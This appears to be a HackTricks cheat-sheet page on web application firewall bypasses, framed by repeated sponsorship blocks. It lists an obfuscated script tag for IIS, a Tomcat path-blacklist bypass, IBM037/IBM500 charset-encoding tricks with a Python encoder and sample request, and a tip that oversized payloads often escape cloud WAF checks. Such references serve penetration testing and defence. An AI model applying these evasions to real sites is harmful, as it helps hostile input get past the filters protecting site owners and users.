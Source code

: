 # WAF Bypass

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

```bash
# IIS, ASP Clasic
<%s%cr%u0131pt> == <script>

# Path blacklist bypass - Tomcat
/path1/path2/ == ;/path1;foo/path2;bar/;

# Charset encoding
application/x-www-form-urlencoded;charset=ibm037
multipart/form-data; charset=ibm037,boundary=blah
multipart/form-data; boundary=blah; charset=ibm037

##Python code
import urllib
s = 'payload'
print(urllib.parse.quote_plus(s.encode("IBM037")))

## Request example
GET / HTTP/1.1
Host: buggy
Content-Type: application/x-www-form-urlencoded; charset=ibm500
Content-Length: 61

%86%89%93%85%95%81%94%85=KKaKKa%C6%D3%C1%C7K%A3%A7%A3&x=L%A7n

```

It's common in cloud based WAFs that if the payload is bigger than X size, the request won't be checked by the WAF. You can simply use that to bypass them.

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>
